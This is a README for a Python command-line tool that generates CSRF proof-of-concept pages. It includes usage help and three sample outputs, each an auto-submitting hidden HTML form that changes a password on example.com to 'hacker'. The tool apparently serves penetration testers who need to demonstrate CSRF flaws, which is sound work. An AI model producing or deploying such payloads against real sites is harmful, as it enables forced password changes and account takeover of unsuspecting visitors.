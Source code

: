 # CSRF PoC Generator
This is a pyhton script which generates PoC for Cross-site request forgery with autosubmit form. you just need to provide Url, method and parameters.


# Required Package

```python3 -m pip install yattag```

# Usage

# Options
```
root@ghost:~# python3 csrf_poc_gen.py -h
usage: csrf_poc_gen.py [-h] [-m METHOD] [-u URL] [-p PARAMETERS] [-a AUTHOR]
                       [-e ENCTYPE]

This is a pyhton script which generates PoC for Cross-site request forgery
with autosubmit form. you just need to provide Url, method and parameters.

optional arguments:
  -h, --help            show this help message and exit
  -m METHOD, --method METHOD
                        Method
  -u URL, --url URL     url
  -p PARAMETERS, --parameters PARAMETERS
                        Request parameter
  -a AUTHOR, --author AUTHOR
                        Name of Author
  -e ENCTYPE, --enctype ENCTYPE
                        enctype
```



# To Generate PoC 
```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" 
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# Enctype
it supports 3 enctype application/x-www-form-urlencoded, multipart/form-data and text/plain.

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -e "text/plain"
<html>
  <title>
    This CSRF was found by 
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="text/plain">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```



# With discoverer name

```
root@ghost:~# python3 csrf_poc_gen.py -u http://example.com -m post -p "new_password=hacker&re_new_password=hacker" -a "Hacker man"
<html>
  <title>
    This CSRF was found by Hacker man
  </title>
  <body>
    <h1>
      This POC was Created By CSRF PoC Generator Tool
    </h1>
    <form action="http://example.com" method="POST" enctype="application/x-www-form-urlencoded">
      <input type="hidden" name="new_password" value="hacker" />
      <input type="hidden" name="re_new_password" value="hacker" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

